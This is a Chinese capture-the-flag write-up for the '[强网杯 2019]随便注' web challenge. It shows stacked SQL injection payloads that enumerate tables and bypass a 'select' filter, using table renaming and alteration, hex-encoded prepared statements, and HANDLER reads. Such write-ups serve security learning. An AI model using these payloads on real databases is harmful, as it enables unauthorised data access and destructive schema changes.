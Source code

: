 # [强网杯 2019]随便注

## 知识点

`堆叠注入`

## 解题

![](G:/CTFWriteUp/buuctf/Web/img/4-1.png)

注入发现为`单引号注入`

![image-20231109223058542](G:/CTFWriteUp/buuctf/Web/img/4-2.png)

查看列

![image-20231109223131382](G:/CTFWriteUp/buuctf/Web/img/4-4.png)

发现为`2`列

联合注入查一下信息

![image-20231109223245571](G:/CTFWriteUp/buuctf/Web/img/4-7.png)

发现过滤了`select`

堆叠注入试试,就是通过`;`号注入多条`SQL`语句。

```mysql
1';show databases%23
1';show tables%23
# 表名为数字时，要用反引号包起来查询。
1';show columns from `1919810931114514`%23
1';show columns from words%23
```

查出来了表`1919810931114514`和`words`，

`1919810931114514`表有`flag`列

`words`表有`id`列和`data`列

但是`select`被过滤了，需要绕过

### 方法一 更改查询表名为目标表名及更改对应字段

1. 通过` rename `先把`words` 表改名为其他的表名。
2. 把`1919810931114514`表的名字改为`words`
3. 给`words`表添加新的列名`id`
4. 将`flag`字段名改为与`words`中相同的列名`data`

然后就可以通过查询`id`得方法查出来`flag`字段的内容了

```mysql
1';rename table words to word1;rename table `1919810931114514` to words;alter table words add id int not NULL auto_increment primary key;alter table words change flag data varchar(100);%23
```

提交`payload`后，再查询`id`为`1`的数据，就可以查到`flag`

![](G:/CTFWriteUp/buuctf/Web/img/4-8.png)

### 方法二 预处理语句配合十六进制编码

因为`select`被过滤了

```
所以先将select * from `1919810931114514`进行16进制编码
```

再构造预处理语句

```mysql
;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
# 因上述方法更改了flag表，所以真实的flag在words表中，所以重新编码
0';Set@a=0x73656c656374202a2066726f6d2060776f72647360;prepare execsql from @a;execute execsql;%23
```

### 方法三 非预期

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#
```
